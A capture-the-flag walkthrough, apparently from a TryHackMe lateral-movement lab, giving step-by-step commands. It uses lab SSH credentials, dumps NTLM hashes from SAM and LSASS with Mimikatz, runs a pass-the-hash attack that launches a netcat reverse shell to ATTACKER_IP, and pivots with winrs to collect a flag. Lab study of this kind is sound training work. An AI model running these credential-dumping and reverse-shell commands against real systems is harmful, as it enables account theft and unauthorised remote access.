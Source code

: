 Title: Step 1: Connect to SSH
- Connect to THMJMP2 using SSH with the following credentials:
  - User: ZA.TRYHACKME.COM\t2_felicia.dean
  - Password: iLov3THM!
  - Command: ssh za\\t2_felicia.dean@thmjmp2.za.tryhackme.com

Title: Step 2: Using Mimikatz
- Run mimikatz:
  - Command: Mimikatz.exe
- Elevate privileges:
  - Command: privilege::debug
- Token elevation:
  - Command: Token::elevate

Title: Step 3: Extracting NTLM Hashes from local SAM
- Dump local admin hash from SAM database:
  - Command: Lsadump::sam
- Note: Only the local admin hash was dumped, which is not very useful.

Title: Step 4: Extracting NTLM Hashes from LSASS memory
- Extract NTLM hashes from LSASS memory:
  - Command: sekurlsa::msv

Title: Step 5: Copying the username and NTLM hash to a text file
- Copy the username and NTLM hash of the user into a text file for convenience:
  - Command: echo "tl_toby.beck: 533f1bd576caa912bdb9da284bbc60fe" > toby_hash.txt

Title: Step 6: Getting a Reverse Shell
Step 6.1: Setup netcat listener:
- Start a netcat listener:
  - Command: nc -nvlp 4445

Step 6.2: Use Extracted Hash for Pass-the-Hash (PTH) Attack
- Revert token:
  - Command: token::revert
- Perform PTH attack using the extracted hash:
  - Command: sekurlsa::pth /user:tl_toby.beck /domain:za.tryhackme.com /ntlm:533f1bd576caa912bdb9da284bbc60fe /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"

Title: Step 7: Interacting with netcat shell
- Interact with the netcat shell on the attacker machine.

Title: Step 8: Connecting to a Command Prompt on THMIIS
- Connect to a command prompt on THMIIS using winrs:
  - Command: winrs.exe -r:THMIIS.za.tryhackme.com cmd

Title: Step 9: Getting the Flag on the Desktop
- Navigate to the desktop and list the files:
  - Command: cd Desktop, dir
- Find the flag on the desktop.

Note: Please replace "ATTACKER_IP" with the actual IP address of the attacker machine in Step 6.2.